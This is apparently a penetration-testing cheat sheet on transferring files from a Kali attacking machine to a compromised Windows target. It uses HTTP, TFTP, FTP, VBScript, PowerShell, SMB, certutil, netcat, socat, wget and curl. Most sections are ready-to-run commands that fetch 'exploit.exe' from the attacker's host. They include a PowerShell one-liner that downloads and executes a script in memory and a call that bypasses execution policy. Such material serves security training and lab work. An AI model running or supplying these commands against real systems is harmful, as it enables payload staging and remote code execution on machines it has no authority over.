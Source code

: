 Kali Machine(Attacking machine)- We need to start the http server to serve the files so that other system can access it.

HTTP Server
```python
python -m SimpleHTTPServer 80
python -m http.server 80
```


TFTP
TFTP can be used to transfer files to/from older Windows OS.

By default installed on : Up to Windows XP and 2003.
By default not installed on : Windows 7, Windows 2008, and newer.

Kali
```
apt update && sudo apt install atftp
mkdir /tftp
chown nobody: /tftp
atftpd --daemon --port 69 /tftp
```
Windows
```
tftp -i 192.168.1.2 PUT file1.txt
tftp -i 192.168.1.2 GET file2.txt
```


FTP
The below method can be used to transfer file from Linux to Windows. Similar technique can also be used to transfer file from WIndows to Linux but with a little trick.

Place your file(nc.exe in this case)ftphome directory on target linux
Replace the username/password in below with your FTP username/password.

Linux System(Attacking machine)
```
echo open 192.168.1.2 21> file.txt
echo USER username>> file.txt
echo password>> file.txt
echo bin >> file.txt
echo GET nc.exe >> file.txt
echo bye >> file.txt
```
Windows (Target machine)
```
ftp -v -n -s:file.txt
```


Downloads/Transfer file on/to Windows system using scripting language.

VBScript(XP, 2003)

In this first we will echo all these commands in a file wget.vbs
If you are creating this file on windows then it will work fine.
If creating on Linux and then transferring to windows then you may face issue sometime, use unix2dos before you transfer it in this case.
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
Using wget.vbs
```
cscript wget.vbs http://192.168.1.2/xyz.txt xyz.txt
```


Powershell(Win 7, 2008 and above)

A – If you have fully interactive Powershell session.

Download file
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2/exploit.exe', 'exploit.exe')
```
Download and execute without saving on disk
```
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.1.2/test.ps1')
```
B – If there is no interactive Powershell session.

If we don’t have fully interactive shell to launch Powershell we need to create a powershell script and run as a file.
```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.1.2/exploit.exe" >>wget.ps1
echo $file = "exploit1-ouput.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```
Finally we can call and run the ps file using below
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```


SMB
Kali
Use smbserver.py from Impacket.
```
python smbserver.py ROPNOP /root/yogesh
```
Put any files within /root/yogesh folder (exploit.exe in this case)

Windows
```
copy \192.168.1.2\ROPNOP\exploit.exe .
```


CertUtil
Start python http server on Attacker machine

Run below command on Windows(Target)
```
certutil.exe -urlcache -split -f "http://192.168.1.2/exploit.exe"
```




If anyhow you get Netcat, Socat, Wget, Curl on windows then below commands can be used for file transfer.

Netcat
Windows
```
nc -nlvp 4444 > outputfile.exe
```
Kali
```
nc -nv 192.168.1.2 4444 < /usr/inputfile.exe
```
Socat
Kali
```
socat TCP4-LISTEN:443,fork file:file.txt
```
Windows
```
socat TCP4:192.168.1.2:443 file:file.txt,create
```
Wget
Kali
```
python -m http.server 80 (On the same directory where file is available)
```
Windows
```
wget http://192.168.1.2/exploit.exe
```
Curl
Kali
```
python -m http.server 80 (On the same directory where file is available)
```
Windows
```
curl http://192.168.1.2/exploit.exe -o exploit.exe
```
